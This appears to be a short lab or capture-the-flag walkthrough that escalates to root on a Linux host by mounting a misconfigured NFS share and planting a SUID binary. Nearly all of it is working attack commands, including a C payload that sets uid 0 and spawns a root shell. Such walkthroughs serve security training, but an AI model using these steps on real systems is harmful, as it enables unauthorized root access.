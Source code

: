 1. Open command prompt and type: `showmount -e 10.10.75.233`
2. In command prompt type: `mkdir /tmp/1`
3. In command prompt type: `mount -o rw,vers=2 10.10.75.233:/tmp /tmp/1`  
In command prompt type:  
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c`
4. In command prompt type: `gcc /tmp/1/x.c -o /tmp/1/x`
5. In command prompt type: `chmod +s /tmp/1/x`

**Target box**

1. In command prompt type: `/tmp/x`
2. In command prompt type: `id`
